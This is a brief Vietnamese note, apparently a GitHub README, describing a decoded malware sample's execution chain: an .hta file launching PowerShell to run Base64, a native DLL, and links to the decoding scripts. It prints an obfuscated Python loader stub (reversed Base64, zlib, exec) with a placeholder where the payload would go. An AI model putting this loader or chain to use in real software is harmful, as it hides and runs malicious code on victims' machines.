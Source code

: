 Code được giải mã bởi HKO247

Cách thức hoạt động:

	1. Chương trình .hta mở Prossecess bằng Powsershell run đoạn Base64

	https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/tep.hta


  	2. Navite .dll từ code 
    https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/decode_concudaden.py
    Hoặc tạo *.dll  có dữ liệu 
    _ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]))
	exec((_)(b'"Đoạn base64 convert từ python mình gửi ở trên"'))
